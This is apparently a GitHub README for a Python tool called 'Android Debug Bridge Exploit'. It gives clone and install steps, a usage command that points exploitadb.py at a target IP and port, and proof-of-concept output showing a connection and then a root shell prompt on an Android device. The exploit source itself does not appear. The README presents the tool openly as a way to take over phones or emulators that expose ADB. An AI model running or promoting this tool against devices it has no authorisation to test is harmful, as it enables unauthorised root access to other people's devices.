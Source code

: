 # Android Debug Bridge Exploit

This Exploit let them exploit which android phone or emulator running on android debug bridge.

# Installition

+ git clone https://Alperenae/androidexp
+ cd androidexp
+ chmod +x exploitadb.py
+ apt-get install python3

# Usage

`python3 exploitadb.py -t/--target [TargetIP] --port [TargetPort]`

# Proof Of Consept [PoC]

`[*] Trying Connection`					  
+ `connected to [***.***.**.**]:[****]`			  

`[*] Trying To Root Shell`
+ `root@ln_opi+:/ #`
